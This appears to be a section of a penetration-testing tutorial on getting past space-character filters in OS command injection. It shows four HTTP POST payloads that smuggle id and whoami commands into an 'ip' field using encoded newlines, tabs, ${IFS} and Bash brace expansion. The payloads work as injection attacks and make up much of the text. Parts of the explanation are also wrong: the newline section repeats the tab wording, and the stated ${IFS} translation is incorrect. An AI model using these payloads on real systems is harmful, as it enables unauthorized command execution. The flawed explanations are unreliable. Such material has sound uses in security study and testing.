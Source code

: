A commonly blacklisted character is a space ( ) or `+` when its encoded. There are a couple of ways to bypass such filters for this characters.
## Using New-line
Using newline (`%0d%0a`) instead of spaces is a technique that might work, since both Linux and Windows accept commands with tabs in between arguments, and they are executed the same.
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0aid
```
## Using Tabs
Using tabs (`%09`) instead of spaces is a technique that might work, since both Linux and Windows accept commands with tabs in between arguments, and they are executed the same.
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%09whoami
```
## Using $IFS
The `$IFS` is a Linux Environment Variable that can used since its default value is a space and a tab, which would work between command arguments. So if the `$IFS` is used, the variable should automatically be replaced by a space and the command should work.
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1${IFS}whoami
```
> Note: When parsed, this will translate into the CLI `127.0.0.1$IFSwhoami`.
## Using Brace Expansion
The Bash Brace Expansion feature (`{ls,-la}`) automatically ads spaces between arguments wrapped in braces. We can also utilize this same method to bypass space filters.
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0a{id,whoami}
```